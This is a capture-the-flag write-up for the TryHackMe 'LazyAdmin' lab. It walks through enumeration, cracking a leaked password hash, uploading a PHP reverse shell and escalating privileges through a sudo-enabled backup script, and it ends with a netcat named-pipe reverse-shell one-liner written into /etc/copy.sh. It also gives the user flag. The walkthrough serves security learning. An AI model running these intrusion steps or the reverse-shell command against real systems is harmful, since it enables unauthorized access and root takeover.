 ### LazyAdmin


####  Lazy Admin

What is the user flag?
- THM{63e5bce9271952aad1113b6f1ac28a07}


What is the root flag?


Enumeration:

Nmap scan:

Ports 22 and 80 are open:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/LazyAdmin]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.35.168 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-19 22:01 EDT
Nmap scan report for 10.10.35.168
Host is up (0.64s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.38 seconds
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/LazyAdmin]
└─$ 

```


Gobuster scan:

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.35.168:80" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/LazyAdmin/gobuster_scan.txt -t 64 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.168:80
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/19 22:02:22 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.35.168/content/]
Progress: 935 / 220561 (0.42%)                                                   ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/08/19 22:02:38 Finished
===============================================================
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

Going to /content page, we can see that there is a maintenance page, so we enumerate the /content page further using gobuster:


```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.35.168/content" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/LazyAdmin/gobuster_scan2.txt -t 64
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.168/content
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/19 22:05:02 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://10.10.35.168/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.35.168/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.35.168/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://10.10.35.168/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://10.10.35.168/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.35.168/content/attachment/]
Progress: 7455 / 220561 (3.38%)                                                             ^C
[!] Keyboard interrupt detected, terminating.
                                                                                             
===============================================================
2022/08/19 22:06:28 Finished
===============================================================
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

Using trial and error, we go to every pages, looking for possible attack vectors and low hanging fruit:

![[Pasted image 20220819220737.png]]

Looking further, we see that there is a mysql_backup folder and we will try to open the file:

![[Pasted image 20220819220836.png]]


Opening up the file, we can see that there are lying credentials on the file:

username: manager
password: hashed pw


![[Pasted image 20220819220959.png]]

Lets use crackstation to check the hash and hopefully we can get a plaintext password:

![[Pasted image 20220819221123.png]]

Password: Password123

Using those credentials, we can now login to 10.10.35.168/content/as/

![[Pasted image 20220819221220.png]]

After that, we can explore the website and found an ads page where we can advertise (keyword, advertise!) your code:

![[Pasted image 20220819221307.png]]

We can then craft a php reverse shell like so:

![[Pasted image 20220819221346.png]]

and upload it to the ads page:

![[Pasted image 20220819221442.png]]

We can now look for the reverse_shell.php code on the ip:80/content/inc and under ads, we can click our file:


![[Pasted image 20220819221556.png]]
![[Pasted image 20220819221608.png]]

Setup a netcat listener using port 1234, then stabilize the shell, the capture the first flag:


```

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                         
listening on [any] 1234 ...
connect to [10.4.73.167] from (UNKNOWN) [10.10.35.168] 60604
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 05:17:07 up 18 min,  0 users,  load average: 0.00, 0.05, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ export TERM=xterm
export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -lnvp 1234
                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1234

www-data@THM-Chal:/$ whoami
www-data
www-data@THM-Chal:/$ ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr      vmlinuz.old
boot   etc   initrd.img.old  media       proc  sbin  sys  var
cdrom  home  lib             mnt         root  snap  tmp  vmlinuz
www-data@THM-Chal:/$ cd home && ls
itguy
www-data@THM-Chal:/home$ cd itguy && ls
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
www-data@THM-Chal:/home/itguy$ 


```

To proceed with privilege escalation, we can check for sudo privileges first using sudo -l:

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$ 

```

There, we can see that backup.pl can run on sudo privileges. Then opening up backup.pl, we can see that it is running on /etc/copy.sh:

```
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$ 


```




admin: manager
passwd : 42f749ade7f9e195bf475f37a44cafcb | Password123


rice:randompass


echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.73.167 5555 >/tmp/f" > /etc/copy.sh